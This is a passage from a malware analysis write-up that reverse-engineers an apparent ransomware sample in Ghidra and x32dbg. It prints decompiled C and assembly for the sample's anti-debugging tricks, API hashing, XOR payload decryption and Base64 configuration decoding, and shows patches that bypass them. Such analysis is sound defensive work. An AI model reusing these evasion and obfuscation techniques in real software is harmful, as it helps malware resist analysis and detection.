	After getting a trampoline to each decompressed code function, the function `FUN_0040686c` is executed.
	- rtl_freeheap_antidbg_func (FUN_0040686c):
		First we have the same anti-debug technique that we had before when retrieving the [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) looking at the offset of `0x18`, `PVOID ProcessHeap`, the default [`heap`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_HEAP) process at the offset `0x44`, which is the `ForceFlags` field, checking if the flag [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking)(`0x40000000`) is active, because is as always active when being debugged. If is debugged `ROR` will corrupt the handle, freeing data that shouldn't be freed.

---
.
		Once again we will need to substitute the `ROR` with a `NOP` to make the debug correct past that point, by not altering the handle when it's debugged.
		<div align="center"></div>
		<div align="center"></div>
		Export it as always.

---
.
		So after the anti-debug technique, [`RtlFreeHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlfreeheap) is invoked to clear a heap allocated data.
```assembly
CALL       return_peb_func                   ; returns PEB on EAX
MOV        EAX,dword ptr [EAX + 0x18]    ; Get ProccessHeap pointer to default heap
TEST       dword ptr [EAX + 0x44],0x40000000 ; Check if is active the flag
											 ; HEAP_VALIDATE_PARAMETERS_ENABLED
JZ         LAB_00406882                      ; Not active -> not debugged, skip
ROR        EAX,0x1                           ; active -> corrupt handle
    LAB_00406882:
PUSH       dword ptr [EBP + param_1]         ; Pass param_1 heap to free
PUSH       0x0                               ; Flags -> none
PUSH       EAX                               ; Pass eax, address to default heap
CALL       dword ptr [RtlFreeHeap]           ; RtlFreeHeap frees param_1
RET        0x4
```
.
		Because the function only frees data from a heap, we will rename it to `rtl_freeheap_antidbg_func`:
		<div align="center"></div>
	After revising each function and understanding the functionality we will rename the code to `decompress_obfuscated_code_func`:
	<div align="center"></div>
  
Now we will analyse the last function there, which is `FUN_0040b470`.
- antidbg_rewritedbg_func (FUN_0040b470)
	<div align="center"></div>
  
	This function at first sight retrieves a special API with the function `api_hashing_func()`, that if we look at it it returns [`DbgUiRemoteBreakin`](https://doxygen.reactos.org/dd/ddc/dbgui_8c_source.html#l00289) from ntdll.
	<div align="center"></div>
  
	<div align="center"></div>
  
	If we check [`React OS Documentation`](https://doxygen.reactos.org/dd/ddc/dbgui_8c_source.html#l00289), we can see that the function checks if the code is being debugged, and if so, then it puts a breakpoint to the process attached to the process being debugged. This is a more sophisticated anti-debug technique, because it loads an undocumented debug function required to debug which is overwritten to make it not possible to continue debugging. So after retrieving  [`DbgUiRemoteBreakin`](https://doxygen.reactos.org/dd/ddc/dbgui_8c_source.html#l00289) with the function `api_hashing_func`, it uses [`ZwProtectVirtualMemory`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwProtectVirtualMemory.html), which is this function renamed at [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect), to change the protection of [`DbgUiRemoteBreakin`](https://doxygen.reactos.org/dd/ddc/dbgui_8c_source.html#l00289) to [`PAGE_EXECUTE_READWRITE`](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants) (`0x40`) to be able to modify the code in order to use [`SystemFunction040`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtlencryptmemory), `RtlEncryptMemory`, to encrypt the memory and make debugging not possible.
```c
void FUN_0040b470(void)
{
  copy_ptr_dbfuiremote = (void *)0x0;       // Initialize to NULL
  local_c = 0x20;                           // Target 0x20 bytes (32 bytes)
  // Resolve DbgUiRemoteBreakin using API hashing (value -0x778c1144 = 0x887F4EBC)
  ptr_DbgUiRemoteBreakin = api_hashing_func(-0x778c1144);  
  if (ptr_DbgUiRemoteBreakin != NULL) {
    // Save the pointer to be passed by reference to ZwProtectVirtualMemory
    copy_ptr_dbfuiremote = ptr_DbgUiRemoteBreakin;
// Change protection of 0x20 bytes at DbgUiRemoteBreakin to PAGE_EXECUTE_READWRITE
    iVar1 = (*ZwProtectVirtualMemory)(
              0xFFFFFFFF,                // Handle to current process (-1)
              &copy_ptr_dbfuiremote,     // Address of target region
              &local_c,                  // Size of region
              0x40,                      // New protection: PAGE_EXECUTE_READWRITE
              local_10);          // old protection rights obtained with offsets
    if (iVar1 == 0) {
// If protection changes successfully, encrypt out 32 bytes of DbgUiRemoteBreakin
      (*SystemFunction040)(
        ptr_DbgUiRemoteBreakin,        // Destination: DbgUiRemoteBreakin
        0x20,                          // Size: 32 bytes
        0);                            // Flag: 0, encryption unique to the process
    }
  }
  return;
}
```
.
	To bypass this anti-disassembly technique, we modify the conditional jump `JNZ LAB_0040b4c6` (which checks if `iVar1 == 0`) into an unconditional jump. This ensures that the call to [`SystemFunction040`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtlencryptmemory), `RtlEncryptMemory`, is always skipped.

---
.
	With Ghidra we will patch this as before:
	<div align="center"></div>
	<div align="center"></div>
	Now export it as always.

---
.
	Based on this functionality the function will be renamed to `antidbg_rewritedbg_func`:
	<div align="center"></div>
  
In a nutshell, the whole function starts by retrieving with `api_hashing_func()` the function [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap), creates a heap and returns its handle, and [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap) which will be used by the following functions, by searching dynamically for a matching hash, obtained with `XOR`. Then it loads at the memory with `load_apis_func()` using obfuscated hashes to load 305 APIs to reference dynamically, in the code to where their pointer is stored. A function to hide the thread from the debugger, a decompress function to load code dynamically, creating three pointers to three different new functions, and a last function to mess with the debugging and make it not possible. 

Based on this, the function will be renamed to `construct_api_addresses_antidbg`:
<div align="center"></div>


##### Function setup_environment_and_escalate_preexploit (FUN_00419990)
At this function starts the actual malware escalation and propagation.
<div align="center"></div>

First it executes the function `FUN_00406900()` with which we will start analysing.
- optimize_process_heap (FUN_00406900)
	<div align="center"></div>
  
	The function retrieves a value from `FUN_00401564()`, so we will analyse it to make more clear the logic of this function.
	- get_OS_version_func (FUN_00401564):
		This function retrieves a value based on the Windows Operating System type, by retrieving the [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) and looking at the offset `0xa4` that is `ULONG OSMajorVersion` and at the offset `0xa8` that is `ULONG OSMinorVersion`, both being values to get the Windows OS type. The OS type can be seen at this table from [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-osversioninfoexa#remarks). Windows 11 is not included, so on a Windows 11 machine at the registry in `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion` we will be able to see in the keys `CurrentMajorVersionNumber` and `CurrentMinorVersionNumber` that are 10 and 0 respectively, as in Windows 10:
		<div align="center"></div>
    
		Then based on the Windows OS type it returns the same type in hexadecimal.
```c
undefined4 FUN_00401564(void)
{
  pvVar3 = return_peb_func();                       // Get pointer to PEB
  uVar1 = *(uint *)((int)pvVar3 + 0xa4);            // OSMajorVersion
  iVar2 = *(int *)((int)pvVar3 + 0xa8);             // OSMinorVersion
  if (((uVar1 == 5) && (iVar2 == 0)) || (uVar1 < 5)) {
    return 0;                                       // Windows 2000 or older
  }
  if ((uVar1 == 5) && (iVar2 == 1)) {
    return 51;                                    // Windows XP
  }
  if ((uVar1 == 5) && (iVar2 == 2)) {
    return 52;                                    // Windows Server 2003 / XP x64
  }
  if ((uVar1 == 6) && (iVar2 == 0)) {
    return 60;                                    // Windows Vista / Server 2008
  }
  if ((uVar1 == 6) && (iVar2 == 1)) {
    return 61;                                    // Windows 7 / Server 2008 R2
  }
  if ((uVar1 == 6) && (iVar2 == 2)) {
    return 62;                                    // Windows 8 / Server 2012
  }
  if ((uVar1 == 6) && (iVar2 == 3)) {
    return 63;                                    // Windows 8.1 / Server 2012 R2
  }
  if ((uVar1 == 10) && (iVar2 == 0)) {
    return 100;                                    // Windows 10 / 11 / Server 2016
  }
  if (((uVar1 != 10) || (iVar2 == 0)) && (uVar1 < 0xb)) {
    return 0xffffffff;                              // Unknown version (default)
  }
  return 0x7fffffff;                                // Future OS (version >= 11)
}
```
.
		Based on the functionality, the function will be renamed to `get_OS_version_func`:
		<div align="center"></div>
	So with the retrieved function, if the OS is newer than Windows Vista, because of compatibility. There it invokes the [`RtlSetHeapInformation`](https://ntdoc.m417z.com/rtlsetheapinformation) function, which takes the heap of the process, because it retrieves the [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) and takes at the offset `0x18` the `PVOID ProcessHeap`, `0` as the second parameter that is `HeapCompatibilityInformation` allowing heap features, especially with the third parameter `local_8 (2)` that enables low-fragmentation heap (`LFH`), based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapsetinformation), which reduces fragmentation and improves performance mainly.
```c
void FUN_00406900(void)
{
  uVar1 = get_OS_version_func();  // Get OS version code
  
  if (60 < uVar1) {         // If OS is newer than Windows Vista
    local_8 = 2;       // Set heap option value to 2, Low-fragmentation heap (LFH)
    pvVar2 = return_peb_func();  // Get PEB
    // Apply heap setting using RtlSetHeapInformation
    (*RtlSetHeapInformation)(*(undefined4 *)((int)pvVar2 + 0x18), 0, &local_8, 4);
  }
  return;
}
```
.
	We will rename the function to `optimize_process_heap` to give it a more meaningful name:
	<div align="center"></div>
  
The next executed function is `FUN_00406f48`.
- prepare_payload_and_config_data_func (FUN_00406f48):
	<div align="center"></div>
  
	This function is quite complex, but we will start by analysing the first invoked function, `FUN_00406de8`, which will be necessary for the program logic, that receives a weird payload at `DAT_0042600c`, which if the result is not empty, the content will be decompressed with the function `some_aplib_decompressor_func()` into an allocated buffer at the process heap with the function `allocate_data_processheap_antidbg()`.
	- decrypt_payload_xor_custom_func (FUN_00406de8):
		At this function `param_1` is  `DAT_0042600c`, a weird payload, which is copied into the process heap by allocating 0x77f bytes, because it takes `param_1 - 0x4` which is `DAT_00426008`, with the function `allocate_data_processheap_antidbg()`. Then the function `FUN_00401720()` will decrypt the payload at the allocated data.
```c
byte * FUN_00406de8(byte *param_1)
{
// alloc_process_buffer = ptr to alloc data at process, size DAT_00426008 (0x7ff)
alloc_process_buffer = (byte *)allocate_data_processheap_antidbg(*(param_1 + -4));
  if (alloc_process_buffer != (byte *)0x0) {
    size_buf = *(int *)(param_1 + -4);     // Get payload size DAT_00426008 (0x7ff)
    copy_ptr_alloc_buffer = alloc_process_buffer; // get ptr copy to DAT_0042600c
    // Copy encrypted payload to the allocated data at the process heap
    for (i = size_buf; i != 0; i = i + -1) {
      *copy_ptr_alloc_buffer = *param_1;
      param_1 = param_1 + 1;
      copy_ptr_alloc_buffer = copy_ptr_alloc_buffer + 1;
    }
    // Function that decrypts the compressed payload with alloc ptr and size
    FUN_00401720(alloc_process_buffer,size_buf);
  }
  return alloc_process_buffer;
}
```
.
		- two_round_xor_decryption_func (FUN_00401720):
			This function first derives a 64-bit key by combining two 32-bit values stored at `DAT_00426000` (low `DWORD`) and `DAT_00426004` (high `DWORD`). It then calls `weird_decompressed_payload_mult_func` (the dynamically loaded routine from the decompressed payload at `construct_api_addresses_antidbg` ), which applies a series of multiplications between those two halves and fixed constants to produce a unique 64-bit value. Finally, the function uses that 64-bit key to decrypt the compressed payload: it performs two rounds of four `XOR` operations, applying each of the key’s bytes in sequence to consecutive bytes of the buffer.
```assembly
MOV     EBX, dword ptr [EBP + param_2]  ; EBX = param_2 → size of buffer (0x7ff)
MOV     ESI, dword ptr [EBP + param_1]  ; ESI = param_1 → ptr to alloc buff decode
LEA     EAX, [DAT_00426000]             ; EAX = address of static key block
MOV     EDX, dword ptr [EAX + 0x4]      ; EDX = DAT_00426004 (0x19FBAE1A) high part
MOV     EAX, dword ptr [EAX]            ; EAX = DAT_00426000 (0x9C7C915C) low part

MOV     dword ptr [EBP + local_10], EAX ; local_10 = DAT_00426000 (0x9C7C915C)
MOV     dword ptr [EBP + local_c], EDX  ; local_c  = DAT_00426004 (0x19FBAE1A)

; with FUN_004017ac, weird_decompressed_payload_mult, use this to retrieve
; a transformed 64-bit unique key
	LAB_00401740:
LEA     EAX, [EBP + local_10]           ; EAX = ptr to local_10
PUSH    EAX                             ; 2nd argument = ptr to local_10
										; (local_10 low part and local_c high part)
PUSH    DAT_00426000                    ; 1st argument = DAT_00426000 (0x9C7C915C)
CALL    weird_decompressed_payload_mult_func ; returns transformed 64-bit key in 
											 ; EDX:EAX

MOV     dword ptr [EBP + local_8], 0x2 ; local_8 = 2 → number of decoding rounds

; ===== XOR ROUNDS =====
	LAB_00401755:
XOR     byte ptr [ESI], AL              ; XOR buffer[i] with AL (lowest byte EAX)
INC     ESI                             ; Increase ptr at alloc buff to next byte
DEC     EBX                             ; Decrease size of the buff to decode all
TEST    EBX, EBX                        ; Check if size of buff to process != 0
JNZ     LAB_00401766                    ; If EBX == 0 then it's completely decoded

; exit sequence
...
RET     0x8

	LAB_00401766:
XOR     byte ptr [ESI], DH               ; XOR buffer[i] with DH (second byte EDX)
INC     ESI
DEC     EBX
TEST    EBX, EBX
JNZ     LAB_00401777

; exit
...
RET     0x8

	LAB_00401777:
XOR     byte ptr [ESI], AH                ; XOR buffer[i] with AH (second byte EAX)
INC     ESI
DEC     EBX
TEST    EBX, EBX
JNZ     LAB_00401788

; exit
...
RET     0x8

	LAB_00401788:
XOR     byte ptr [ESI], DL                ; XOR buffer[i] with DL (lowest byte EDX)
INC     ESI
DEC     EBX
TEST    EBX, EBX
JNZ     LAB_00401799

; exit
...
RET     0x8

	LAB_00401799:
SHR     EAX, 0x10                           ; shift EAX right → rotate low key
                                             ;  to get next 2 bytes (16 bits)
SHR     EDX, 0x10                          ; shift EDX right → rotate high key
                                              ;  to get next 2 bytes (16 bits)
DEC     dword ptr [EBP + local_8]             ; local_8--
CMP     dword ptr [EBP + local_8], 0          ; check local_8
JNZ     LAB_00401755                          ; if more rounds, repeat 4 XOR stages

JMP     LAB_00401740                    ; getnew key from FUN_004017ac and continue
```
.
			- weird_decompressed_payload_mult_func (FUN_004017ac)
				The function jumps at the dynamically loaded routine from the decompressed payload at `construct_api_addresses_antidbg` in the one that we renamed to `weird_decompressed_payload_mult`.
				<div align="center"></div>
				To make it clear we will rename it to `weird_decompressed_payload_mult_func`:
				<div align="center"></div>
			The huge blob of compressed data looks like this; it doesn't fit in the photo because there are 2047 bytes of compressed data.
			<div align="center"></div>
			So the function decrypts the payload with a multi-stage `XOR` operation in two rounds, so we will rename it to `two_round_xor_decryption_func`:
			<div align="center"></div>
		So the function ends up decrypting the payload copied at the allocated buffer in the process heap; because of that, we will rename the function to `decrypt_payload_xor_custom_func()`:
		<div align="center"></div>
	So with the pointer to the allocated decrypted compressed payload from `DAT_0042600c` at the process heap, we create another buffer allocating data at the process with the function `allocate_data_processheap_antidbg()` making the size of the original compressed data, 0x7ff, four times bigger, up to 0x1FFC, passing both buffers to `some_aplib_decompressor_func()`, which will decompress the data from the buffer of compressed data (0x7ff bytes) retrieved from `decrypt_payload_xor_custom_func()` and decompress its contents to the new buffer of 0x1FFC bytes. We will rename the names to make it clearer.
	<div align="center"></div>
	Now with x32dbg, if we look at the decompressed data, we can see interesting data, mainly because of the Base64 encoded data:
	<div align="center"></div>
	To see what we need to differentiate from there, if we look further at the code, there are [`memcpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170) functions being invoked that take some specific offsets from the decompressed data:
	<div align="center"></div>
	 - DAT_00424f70, 128 bytes (0 - 0x7f):
		The first range of data is the next one, highlighted in grey, that will be stored to `DAT_00424f70`, but because of the size it could be an RSA key. (Later we will see it is used for encryption.)
		<div align="center"></div>
	- DAT_00425100, 32 bytes (0x80 - 0x9f):
		The second range of data, highlighted in grey, is empty, so it's zeroing data at `DAT_00425100`, unknown use for now. (Later we will see the Affiliate ID data.)
		<div align="center"></div>
	- DAT_00425120, 24 bytes (0xA0 - 0xB7):
		The third range of data, highlighted in grey, has a `1` set in some bytes, so `DAT_00425120` will have something that could be used for flags. (Later we will see the flags to determine which functionality is executed.)
		<div align="center"></div>
	There are still more data left, like the Base64 encoded data, so we will continue analysing.
	After these specific data are imported into some addresses, the offset of `0xb8` is used for the rest of the data and seems to be loading data with the same structure of functions being invoked and advancing the offset at the decompressed data.
	<div align="center"></div>
	We will analyse the functions `FUN_00401508` and `FUN_004012e4` to understand what does it exactly does.
	- calculate_base64_decoded_size (FUN_00401508):
		This function from the input `param_1` reads until it finds a null terminator '/0' and checks the last two bytes if they are '=' or '`==`' because this is typical for Base64 encoded data, which is the padding, subtracting their size from the count of bytes or characters of Base64. In the end, with the amount of bytes minus the padding, multiply it by 3 and divide it by 4, because for every 4 characters of Base64, 3 are generated, obtaining with that the real size of the first Base64 data to import. The Base64 encoding is explained at [`RFC 4648`](https://datatracker.ietf.org/doc/html/rfc4648#page-5) and if we look at the document at the [`base64.h code`](https://cvs.savannah.gnu.org/viewvc/gnulib/gnulib/lib/base64.h?view=markup&content-type=text%2Fvnd.viewcvs-markup&revision=HEAD) we can see how the length is calculated.
```assembly
...
XOR     EDI, EDI                        ; EDI = 0, padding adjustment
MOV     ESI, dword ptr [EBP + param_1]  ; ESI = param_1 (pointer to input buffer)
XOR     EBX, EBX                        ; EBX = 0, byte counter

JMP     LAB_00401518                    ; jump to loop check

	LAB_00401517:
INC     EBX                             ; count bytes until null terminator

	LAB_00401518:
CMP     byte ptr [ESI + EBX*0x1], 0x0   ; check if current byte is 0x00
JNZ     LAB_00401517                    ; loop if not null

TEST    EBX, EBX                        ; check if EBX == 0 (empty string)
JZ      LAB_00401543                    ; skip if empty

CMP     byte ptr [ESI + EBX*0x1 - 0x1], 0x3d ; check if last byte is '='
JNZ     LAB_00401537                         ; if not check if only one '='
CMP     byte ptr [ESI + EBX*0x1 - 0x2], 0x3d ; check if second-last byte is '='
JNZ     LAB_00401537                         ; if not check if only one '='
MOV     EDI, 0x2                        ; ends with '==', set adjustment to 2
JMP     LAB_00401543

	LAB_00401537:
CMP     byte ptr [ESI + EBX*0x1 - 0x1], 0x3d ; check if ends with single '='
JNZ     LAB_00401543                    ; skip if it not finishes with single '='
MOV     EDI, 0x1                        ; ends with '=', set adjustment to 1

	LAB_00401543:
LEA     EBX, [EBX + EBX*2]          ; EBX = EBX * 3
SHR     EBX, 0x2                    ; EBX = EBX / 4 (convert base64 chars to bytes)
									; because for each 4 characters (4 bytes) it's
									; generated 3 bytes
SUB     EBX, EDI                    ; subtract padding (EDI)
MOV     EAX, EBX                    ; EAX = EBX
...
RET     0x4                             
```
.
		Because the function calculates the size of the decoded Base64 data before the first null terminator, it will be renamed to calculate_base64_decoded_size:
		<div align="center"></div>
	- base64_decoder_func (FUN_004012e4):
		This is a base64 decoder implementation, because if we look at the C implementation, [`base64.c`](https://cvs.savannah.gnu.org/viewvc/gnulib/gnulib/lib/base64.c?view=markup&content-type=text%2Fvnd.viewcvs-markup&revision=HEAD) from the [`RFC 4648`](https://datatracker.ietf.org/doc/html/rfc4648#page-5) it creates a table with the same characters at the table `A-Z a-z 0-9 + /`. Also returns the size of the decoded data.
```assembly
LEA EDI, [EBP - 0x104]      ; EDI points to local decoding table
XOR AL, AL
STOSB ES:EDI                    ; table[0] = 0x00
MOV param_1, 0x2A
MOV AL, 0xFF
STOSB.REP ES:EDI ; Fill table[1..0x2A]= 0xFF (invalid chars)
MOV AL, 0x3E
STOSB ES:EDI               ; table['+'] = 0x3E
...
MOV AL, 0x3F
STOSB.REP ES:EDI               ; table['/'] = 0x3F
MOV param_1, 0x0A
MOV AL, 0x34
	LAB_0040131a:
STOSB ES:EDI
INC AL
LOOP LAB_0040131a          ; table['0'..'9'] = 0x34..0x3D
...
MOV param_1, 0x1A
XOR AL, AL
	LAB_0040133b:
STOSB ES:EDI
INC AL
LOOP LAB_0040133b          ; table['A'..'Z'] = 0x00..0x19
...
MOV param_1, 0x1A
MOV AL, 0x1A
...
	LAB_00401352:
STOSB ES:EDI
INC AL
LOOP LAB_00401352          ; table['a'..'z'] = 0x1A..0x33
...
MOV     ESI, [EBP + param_3]         ; ESI = ptr to Base64 input
MOV     EDI, ESI                     ; EDI = copy for scanning
	LAB_00401367:
MOV     AL, byte ptr [EDI]                    ; Load byte
ADD     EDI, 0x4                       ; Move to next 4-byte group
TEST    AL, AL                       ; Check null terminator
JNZ     .LAB_len_loop
LEA     EBX, [EDI - 0x4]               ; EBX = end ptr
SUB     EBX, ESI                     ; EBX = length of input string
; Check for padding '=' characters and correct count
MOV     AL, 0x3D                     ; '=' character
CMP     AL, [ESI + EBX*0x1 - 0x1]      ; Compare last char
SETZ    param_2                      ; param_2 = 1 if last is '='
JNZ     LAB_00401389
MOV     [ESI + EBX*0x1 - 0x1], AH    ; Nullify last '='
	LAB_00401389:
CMP     AL, [ESI + EBX*0x1 - 0x2]    ; Compare second last
SETZ    AL                           ; AL = 1 if penultimate is '='
JNZ     LAB_00401396
MOV     [ESI + EBX*0x1 - 0x2], AH    ; Nullify second '='
; Calculate size of decoded data as the return value of the function
	LAB_00401396:
ADD     AL, param_2                  ; AL = number of paddings (0, 1, 2)
SHR     EBX, 2                       ; EBX = number of Base64 blocks (groups of 4)
LEA     EDX, [EBX + EBX*2]           ; EDX = EBX * 3 (decoded bytes)
SUB     EDX, EAX                     ; EDX = final size after removing padding
PUSH    EDX                          ; Save size on stack (used for return value)
; Decoding logic starts
	LAB_004013a7:
MOV param_1, dword ptr [ESI]  ; Read 4 bytes (Base64 block) from param_3 (input)
MOVZX param_2, param_1
...
MOV AL, [param_2 + EDI*0x1]     ; table lookup for Base64 char 1
MOV AH, [param_1 + EDI*0x1]     ; table lookup for char 2
...
; Bit operations to decode Base64 block into 3 bytes
SHL AL, 0x2
SHR BL, 0x2
SHL param_2, 0x6
SHL AH, 0x4
SHR param_2, 0x4
OR  BH, param_2
OR  AL, param_2
OR  AH, BL
...
MOV [EDI], AL              ; Write decoded byte 1 to param_4
MOV [EDI+0x2], BH            ; Write decoded byte 3 to param_4
MOV [EDI+0x1], AH            ; Write decoded byte 2 to param_4
...
```
.
		Because it decodes base64 data and returns its decoded size, we will rename the function to `base64_decoder_func`:
		<div align="center"></div>
	So if we look at the assembly, the offset at the decompressed data is calculated from the offset `0xb8`, adding to it the current pointer position `0x28`, in the instruction `LEA EBX,[EAX + EDI*0x1]`. If we look at x32dbg or manually add it, we can see it points to the Base64 encoded data.
	<div align="center"></div>
	So the rest of the mysterious data (`0xB8` - `0xDF`, 40, bytes) contains offsets to the next Base64 encoded data with 4 bytes of separation (from the first byte). With that we can start getting the rest of the data stored in the memory of the program, which now for each address (DAT_...) will be storing a 4-byte pointer to an allocated buffer in the process heap for the decoded Base64 data.
	<div align="center"></div>
	- `DAT_00425138` , 112 bytes (`0xE0` - `0x14F`):
		At this address we store the pointer to the first decoded Base64 data.
```assembly
...
LEA        EBX,[EAX + EDI*0x1]            ; (decompressed_data + 0xb8) + 0x28
PUSH       EBX                            ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size    ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                  ; EAX = size + 2 (2 bytes more) 
PUSH       EAX                              ; pass size to alloc
CALL       allocate_data_processheap_antidbg ; ptr to alloc data buffer
MOV        [DAT_00425138],EAX                ; DAT_00425138 = ptr alloc buffer
CMP        dword ptr [DAT_00425138],0x0      ; check not null
JZ         LAB_0040701a                      ; skip if null
PUSH       dword ptr [DAT_00425138]          ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func               ; decode until /0
	LAB_0040701a:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
		And this is the decoded result:
		<div align="center"></div>
	- `DAT_0042513c`, 76 bytes (`0x151` - `0x19C`):
		At this address we store the pointer to the second decoded Base64 data.
```assembly
...
	LAB_0040701a:
MOV        EAX,dword ptr [EDI + 0x4]; EAX = (decompressed_data + 0xb8 + 0x04)
TEST       EAX,EAX                                ; check if not null
JZ         LAB_0040704d                           ; skip if null
LEA        EBX,[EAX + EDI*0x1]   ; (decompressed_data + 0xb8) + 0x99
PUSH       EBX                           ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]               ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                     ; pass size to alloc
CALL       allocate_data_processheap_antidbg ; ptr to alloc data buffer
MOV        [DAT_0042513c],EAX                ; DAT_0042513c = ptr alloc buffer
CMP        dword ptr [DAT_0042513c],0x0            ; check not null
JZ         LAB_0040704d                            ; skip if null
PUSH       dword ptr [DAT_0042513c]                ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                     ; decode until /0
	LAB_0040704d:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
		And this is the decoded result:
		<div align="center"></div>
	- `DAT_00425140`, 272 bytes (`0x19E` - `0x2AD`):
		At this address we store the pointer to the third decoded base64 data.
```assembly
...
	LAB_0040704d:
MOV        EAX,dword ptr [EDI + 0x8] ; EAX = (decompressed_data + 0xb8 + 0x08)
TEST       EAX,EAX                                 ; check if not null
JZ         LAB_00407080                            ; skip if null
LEA        EBX,[EAX + EDI*0x1]    ; (decompressed_data + 0xb8) + 0xE6
PUSH       EBX                              ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size    ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                     ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                     ; pass size to alloc
CALL       allocate_data_processheap_antidbg       ; ptr to alloc data buffer
MOV        [DAT_00425140],EAX                ; DAT_00425140 = ptr alloc buffer
CMP        dword ptr [DAT_00425140],0x0            ; check not null
JZ         LAB_00407080                            ; skip if null
PUSH       dword ptr [DAT_00425140]                ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                     ; decode until /0
	LAB_00407080:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
		And this is the decoded result:
		<div align="center"></div>
	- `DAT_00425144`, 12 bytes (`0x2AF` - `0x2BA`):
		At this address we store the pointer to the fourth decoded Base64 data.
```assembly
...
	LAB_00407080:
MOV        EAX,dword ptr [EDI + 0x0c] ;EAX = (decompressed_data + 0xb8 + 0x0C)
TEST       EAX,EAX                                  ; check if not null
JZ         LAB_004070b3                             ; skip if null
LEA        EBX,[EAX + EDI*0x1]   ; (decompressed_data + 0xb8) + 0x1F7
PUSH       EBX                              ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size     ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                   ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                      ; pass size to alloc
CALL       allocate_data_processheap_antidbg        ; ptr to alloc data buffer
MOV        [DAT_00425144],EAX                ; DAT_00425144 = ptr alloc buffer
CMP        dword ptr [DAT_00425144],0x0             ; check not null
JZ         LAB_004070b3                             ; skip if null
PUSH       dword ptr [DAT_00425144]                 ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                      ; decode until /0
	LAB_004070b3:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
		And this is the decoded result:
		<div align="center"></div>
	-`DAT_00425148`, 784 bytes (`0x2BC` - `0x5CB`):
		At this address we store the pointer to the fifth decoded Base64 data.
```assembly
...
	LAB_004070b3:
MOV        EAX,dword ptr [EDI + 0x14] ;EAX = (decompressed_data + 0xb8 + 0x14)
TEST       EAX,EAX                                  ; check if not null
JZ         LAB_004070e6                             ; skip if null
LEA        EBX,[EAX + EDI*0x1]    ; (decompressed_data + 0xb8) + 0x204
PUSH       EBX                           ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size   ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                     ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                      ; pass size to alloc
CALL       allocate_data_processheap_antidbg        ; ptr to alloc data buffer
MOV        [DAT_00425148],EAX               ; DAT_00425148 = ptr alloc buffer
CMP        dword ptr [DAT_00425148],0x0             ; check not null
JZ         LAB_004070e6                             ; skip if null
PUSH       dword ptr [DAT_00425148]                 ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                      ; decode until /0
	LAB_004070e6:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
